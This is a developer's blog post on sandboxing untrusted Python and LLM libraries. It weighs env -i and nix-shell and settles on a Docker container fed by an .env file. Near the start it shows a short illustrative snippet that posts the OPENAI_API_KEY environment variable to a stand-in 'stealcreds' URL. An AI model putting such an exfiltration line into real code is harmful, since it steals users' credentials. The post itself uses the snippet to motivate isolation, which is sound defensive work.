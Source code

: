 ```yaml
---
title: Sandboxed Python Environment
createdAt: 2024-01-21T03:53:12.000Z
updatedAt: 2024-01-21T03:53:12.000Z
publishedAt: 2024-01-21T03:53:12.000Z
tags:
  - language_models
  - python
  - security
  - nix
  - docker
draft: false
githubUrl: 'https://github.com/danielcorin/toys/tree/main/sandboxed_python'
---
```


Disclaimer: I am not a security expert or a security professional.

I've tried out many new AI/LLM libraries in the past year.
Many of these are written in Python.
While trying out new and exciting software is a lot of fun, it's also important to be mindful about what code you allow to run on your system.
Even if code is open source, it's still _possible_ that the cool open source library you installed includes code like

```python
import httpx
import os

httpx.post(
    'https://someoneswebsite.com/stealcreds',
    data={'key': os.environ.get("OPENAI_API_KEY")},
)
```

I strongly recommend vetting any libraries you use, using separate API keys per app and setting a spend cap on OpenAI in case your key is compromised.
However, your `OPENAI_API_KEY` isn't all you need to worry about.
Python code (including dependencies) has access to your entire `os.environ`.
It's somewhat common to set environment variables for the shell to be available system wide.
Zsh has a dedicated file that gets sourced when the shell starts up (`.zshenv`).
So if you hypothetically had `GITHUB_API_TOKEN` set in your environment, some open source library could send that secret to its own server and gain access to your stuff.

Thankfully, over time, open source libraries _usually_ are scrutinized to the degree that this type of credential stealing becomes more difficult to execute or scale.
However, with the advent of agent-like, language-model-based systems, certain libraries are now asking us to allow them to execute system commands on our behalf.
While many of these require user approval, some have automatic approval capabilities, allowing a language model to roam freely among your system.
If you're reading this article, you probably already know this isn't an awesome idea.

## Some trial and error

I tried several approaches to solve this problem before I identified one that seemed to address most of my concerns.
My goal was to find a safe setup that expected code to use a language model to execute code, peek at my environment or poke around the file system.

### Trying out env

My initial inclination was to try and clear out my environment variables to protect against a program trying to steal my secrets.
The `env -i` command can execute a shell command with an empty environment.
Unfortunately, this approach removes too much of what is needed to run Python, so it wasn't viable.

```sh
❯ env -i python run.py
env: python: No such file or directory
```

### Trying out nix

[Nix](https://nixos.org/) seemed like another possible candidate that could manage an independent version of Python and my dependencies
After a bit of searching, I found a way to create a shell with a nix-specified environment using `nix-shell`.
Loosely following instructions from [this article](https://churchman.nl/2019/01/22/using-nix-to-create-python-virtual-environments/), I created a `shell.nix` file with the following contents

```nix
{ nixpkgs ? import <nixpkgs> {}, pythonVersion ? "python3" }:

nixpkgs.mkShell {
  buildInputs = [
    (nixpkgs.${pythonVersion})
    (nixpkgs.python3Packages.numpy)
    (nixpkgs.python3Packages.openai)
  ];

  shellHook = ''
    echo "Welcome to your Python development environment."
  '';
}
```

I ran `nix-shell` from the same directory, which put me in a shell (within my shell) with a specific version of Python and my specified dependencies installed.

```sh
❯ nix-shell
Welcome to your Python development environment.

❯ which python
/nix/store/<...>-python3-3.11.7/bin/python

❯ python
Python 3.11.7 ...
Type "help", "copyright", "credits" or "license" for more information.
>>> import openai
>>> import numpy
>>>
```

Nix worked as advertised, but I realized this approach didn't provide isolation from my environment variables or my system.
Any Python code I ran from the within the nix shell could still read my environment variables or mess with my host file system if it was malicious.

Nix also has the ability to run a `pure` shell, which per the [docs](https://nixos.org/manual/nix/unstable/command-ref/nix-shell.html#options), will clear most of the environment variables.
I tried this out but it quickly became apparent it was too stripped down for what I was looking for.
It also still had host file system access.

```sh
❯ nix-shell --pure
Welcome to your Python development environment.

[nix-shell:~/dev/try/try_wrapper]$ which python
bash: which: command not found
```

## Using Docker

Given the two main constraints

- host environment variable protection
- host file system protection

I moved on to try and find an approach using Docker, which I knew to provide better file system isolation and an independent set of environment variables.
This approach has become the one I use when I want to try out a new library to get a sense of its capabilities while being mindful of my system's privacy.

Here is how it works.
First, I created a new project with the following files and contents

```text
.
├── .env
├── Dockerfile
├── Makefile
├── requirements.txt
└── run.py
```

`.env`

```txt
OPENAI_API_KEY=<your key>
# any other variables
```

`Dockerfile`

```Dockerfile
FROM python:slim
WORKDIR /usr/src/app
COPY requirements.txt ./
RUN pip install --no-cache-dir -r requirements.txt
COPY *.py /usr/src/app
CMD ["python", "./run.py"]
```

`run.py`

```python
import os
from openai import OpenAI
from dotenv import load_dotenv

load_dotenv()

OPENAI_API_KEY = os.environ.get("OPENAI_API_KEY")

client = OpenAI(api_key=OPENAI_API_KEY)

stream = client.chat.completions.create(...)
# the rest of the code
```

`requirements.txt`

```text
openai
python-dotenv
# any other libraries you want to install
```

`Makefile`

```make
.PHONY: run
run:
	docker build -t run_script . && docker run -it --env-file .env run_script
```

With this setup, I added my environment variables to `.env`, my dependencies to `requirements.txt`, my code to `run.py` and to run it all, `make run`, which builds and runs the container defined in `Dockerfile`.

It's not the easiest or the cleanest approach for ongoing development of a project, but it provides a reasonable way to sandbox and isolate new code you want to try out that your don't necessarily trust.
I did several hours of research to find an approach I was satisfied with but I suspect there are other good options out there.
I would love to hear from you if you have an approach you like.

You can find the code from this post [here](https://github.com/danielcorin/toys/tree/main/sandboxed_python).
